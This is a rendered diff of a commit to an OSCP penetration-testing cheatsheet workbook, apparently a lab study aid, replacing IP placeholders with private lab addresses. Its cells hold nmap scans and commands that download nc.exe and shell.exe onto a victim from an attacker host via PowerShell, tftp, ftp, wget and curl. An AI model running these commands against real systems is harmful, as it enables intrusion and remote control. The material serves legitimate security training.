

Before and after one commit to NurvX/OSCP-Cheatsheet, an Excel workbook: OSCP-checklist_v0.1.1.xlsm, sheet Commands, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; charts and pictures and table styles not drawn; addresses are those after the commit; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
updated recon

```diff
--- a/OSCP-checklist_v0.1.1.xlsm (sheet Commands)
+++ b/OSCP-checklist_v0.1.1.xlsm (sheet Commands)
-B2: <kali_ip>
+B2: 192.168.178.65
-D2: <victim_ip>
+D2: 192.168.178.66
-E22: nmap -Pn <victim_ip>
+E22: nmap -Pn 192.168.178.66
+row 23: Recon | Linux / Windows | nmap | Full blown scan | nmap -sC -sV -O --open -p- -oA nmap/full 192.168.178.66
+row 24: Recon | Linux / Windows | nmap | top 50 | nmap -sV -O --top-ports 50 --open -oA nmap/initial 192.168.178.66
-E25: nmap -p- -Pn <victim_ip>
+E25: nmap -p- -Pn 192.168.178.66
-E26: …| grep <victim_ip> ↵ victim ↵ tftp -i <kali_ip> get wget.exe ↵ tftp -i <kali_ip> put .txt
+E26: …| grep 192.168.178.66 ↵ victim ↵ tftp -i 192.168.178.65 get wget.exe ↵ tftp -i 192.168.178.65 put .txt
-E27: …echo open <kali_ip> > ftp &echo user anonymous password >> ftp &echo binary >> ftp &echo get wget.exe >> ftp &echo bye >> ftp &ftp -n -v -s:ftp & wget.exe --recursive --no-parent http://<kali_ip>:1234/
+E27: …echo open 192.168.178.65 > ftp &echo user anonymous password >> ftp &echo binary >> ftp &echo get wget.exe >> ftp &echo bye >> ftp &ftp -n -v -s:ftp & wget.exe --recursive --no-parent http://192.168.178.65:1234/
-E28: powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<kali_ip>:1234/nc.exe', 'C:\Users\hostname\AppData\Local\Temp\nc.exe')
+E28: powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.178.65:1234/nc.exe', 'C:\Users\hostname\AppData\Local\Temp\nc.exe')
-E29: wget.exe http://<kali_ip>:1234/ --recursive --no-parent
+E29: wget.exe http://192.168.178.65:1234/ --recursive --no-parent
-E30: …-O shell.exe http://<kali_ip>:1234/
+E30: …-O shell.exe http://192.168.178.65:1234/
-E31: …--recursive --no-parent http://<kali_ip>:1337/
+E31: …--recursive --no-parent http://192.168.178.65:1337/
-E32: wget -O shell.exe http://<kali_ip>:1337/
+E32: wget -O shell.exe http://192.168.178.65:1337/
-E33: curl.exe -O http://<kali_ip>:1234
+E33: curl.exe -O http://192.168.178.65:1234
-E34: curl -O http://<kali_ip>:1337
+E34: curl -O http://192.168.178.65:1337
```
Also changed, not shown: 10 added rows and 134 edited cells elsewhere in this sheet, sheet hostserver, sheet Redhat Post-Exploitation, charts or pictures.
